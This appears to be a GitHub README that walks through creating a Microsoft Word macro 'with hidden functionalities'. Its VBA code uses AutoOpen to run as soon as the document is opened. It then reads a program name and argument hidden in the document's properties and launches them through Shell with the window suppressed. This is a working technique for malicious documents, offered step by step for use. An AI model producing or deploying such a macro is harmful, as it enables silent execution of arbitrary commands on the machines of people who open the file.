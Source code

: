 # Office_Macros_With_Hidden_Functionalities
1. Create a new word document. 
![Create New Document](images/1.png)

2. Select `View`, `Macros`, `View Macros`.
![View Macros](images/2.png)

3. Enter a name for the macro in the `Macro name:` field and select `Create`. 
![Create Macro](images/3.png)

4. Copy & Paste the code below into the codebox and click on the `Save` icon.
![Create Macro](images/3.png)
```vb
Sub AutoOpen()
    chapel
End Sub
Sub chapel()
    Dim strProgramName As String
    Dim strArgument As String
    Set doc = ActiveDocument
    strProgramName = doc.BuiltInDocumentProperties("cmd").Value
    strArgument = doc.BuiltInDocumentProperties("argument").Value
    Call Shell("""" & strProgramName & """ """ & strArgument & """", vbHideFocus)
End Sub
```


